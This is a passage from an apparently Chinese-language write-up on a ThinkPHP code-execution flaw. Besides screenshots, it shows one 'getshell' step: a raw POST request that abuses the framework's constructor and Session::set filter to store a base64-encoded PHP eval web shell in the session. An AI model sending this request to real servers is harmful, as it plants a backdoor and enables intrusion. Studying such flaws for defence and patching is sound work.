 ![](%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9C%89%E8%B6%A3%E7%9A%84thinkphp%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.assets/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMTAtZGEzMzE2ZjAtYzc5Yy0xLnBuZw==.jpg)

同样道理这里的payload为什么要多几个分号就不需要再解释了

回到我们的`getshell`步骤，在目标上执行

1，设置`session`：

```


1.  `POST /?s=captcha  
    `
2.  `Cookie: PHPSESSID=kktest`

4.  `_method=__construct&filter[]=think\Session::set&method=get&get[]=abPD9waHAgQGV2YWwoYmFzZTY0X2RlY29kZSgkX0dFVFsnciddKSk7Oz8%2bab&server[]=1`


```

![](%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9C%89%E8%B6%A3%E7%9A%84thinkphp%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.assets/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMTAtZGE3MDAyZjQtYzc5Yy0xLnBuZw==.jpg)
